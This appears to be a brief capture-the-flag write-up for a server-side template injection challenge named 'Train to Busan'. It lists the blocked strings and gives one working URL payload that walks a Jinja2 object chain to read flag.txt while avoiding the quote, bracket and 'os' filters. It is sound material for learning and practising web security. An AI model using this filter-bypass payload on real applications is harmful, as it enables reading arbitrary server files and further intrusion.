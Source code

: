 # Train to Busan

This is a trivial SSTI exploitation challenge that
has a few blacklisted strings. The full list is:
`'`,`"`, `[`, `]`, `os` and `subprocess`.

## Solution

One just needs to figure out how to bypass the blacklist
in order to get the flag. One such payload is:
`/confirmation?trip=%7B%7Bcycler.__init__.__globals__.__builtins__.open(request.args.p).read()%7D%7D&p=flag.txt`
